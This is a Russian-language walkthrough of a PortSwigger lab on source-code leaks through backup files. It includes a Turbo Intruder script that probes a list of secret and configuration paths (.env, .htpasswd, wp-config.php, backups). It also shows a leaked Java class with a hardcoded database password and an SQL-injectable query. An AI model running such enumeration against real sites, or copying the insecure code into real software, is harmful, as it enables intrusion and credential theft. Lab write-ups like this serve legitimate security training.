

лаба https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files

есть утечка исходного кода через файлы резервных копий в скрытом каталоге
нужно найти пароль базы данных

----

глянул карту сайта и стр html код - ничего особо не вижу тут

поэтому пора запускать турбо интрудер!!

```python
import random
import time
try:
    from urllib.parse import quote
except ImportError:
    from urllib import quote

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=3,
                          requestsPerConnection=100,
                          pipeline=False)
    
    # ВСТАВЛЯЙ СВОИ ПЕЙЛОАДЫ СЮДА
    # Каждый с новой строки, без кавычек и запятых
    payloads_raw = """

/robots.txt  
/sitemap.xml  
/.git/  
/backup/  
/phpinfo.php  
/cgi-bin/phpinfo.php  
/debug/  
index.php~  
index.php.bak  
index.php.swp  
index.php.save  
index.php.old  
index.php.orig  
config.php~  
config.php.bak  
.env~  
.env.bak  
.gitignore  
/debug  
/test  
/tests  
/dev  
/develop  
/development  
/stage  
/staging  
/admin/debug  
/api/debug  
/console/  
/web-console/  
/admin/  
/backup/  
/backups/  
/temp/  
/tmp/  
/logs/  
/log/  
/private/  
/hidden/  
/secret/  
/internal/  
/restricted/  
/secure/  
/protected/  
/uploads/  
/files/  
/downloads/  
/docs/  
/documentation/  
/api/docs/  
/swagger/  
/swagger-ui/  
/graphql/console/  
/.env  
/.htaccess  
/.htpasswd  
/WEB-INF/  
/WEB-INF/web.xml  
/META-INF/  
/META-INF/context.xml  
/server-status  
/server-info  
/config.php  
/config.xml  
/config.json  
/configuration.php  
/settings.php  
/wp-config.php  
/app.config  
/application.properties  
/application.yml  
/database.yml  
/error_log  
/error.log  
/access_log  
/access.log  
/debug.log  
/application.log  
/server.log  
/catalina.out


"""

    # Разбираем сырой текст в список
    payloads = [p.strip() for p in payloads_raw.split('\n') if p.strip()]
    
    requests = []
    for payload in payloads:
        final_request = target.req.replace('%s', payload)
        requests.append(final_request)
    
    min_delay = 100
    max_delay = 500
    
    for request in requests:
        engine.queue(request)
        if random.random() > 0.1:
            delay = random.randint(min_delay, max_delay)
            time.sleep(delay / 1000.0)

def handleResponse(req, interesting):
    if interesting:
        req.label = "INTER"
        table.add(req)
    elif req.status == 500:
        response_text = req.response.lower()
        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']
        if any(indicator in response_text for indicator in sql_indicators):
            req.label = "POTENTIAL SQLi"
            table.add(req)
```

сразу несколько попаданий одним запросом
GET /backup/ HTTP/1.1 там есть  href='/backup/ProductTemplate.java.bak


GET /robots.txt HTTP/1.1  там есть User-agent: *
Disallow: /backup




-----

перехожу по GET /backup/ProductTemplate.java.bak HTTP/2

и вижу
```c
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 1667

package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "cjhix9ksb4sd86i2lvh9wa11io2vxix7"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}

```

и вижу кажить пароль, cjhix9ksb4sd86i2lvh9wa11io2vxix7 - скорее всего от бд postgres

да cjhix9ksb4sd86i2lvh9wa11io2vxix7 - это ответ!

лаба решена!!

------
вывод - 
не хранить вообще в открытом доступе какую-либо инфу 

и не хранить пароли в открытом виде нигде вообщее и никогда!

базовый путь робот-txt раскрыл путь к файлу иссход кода + паролю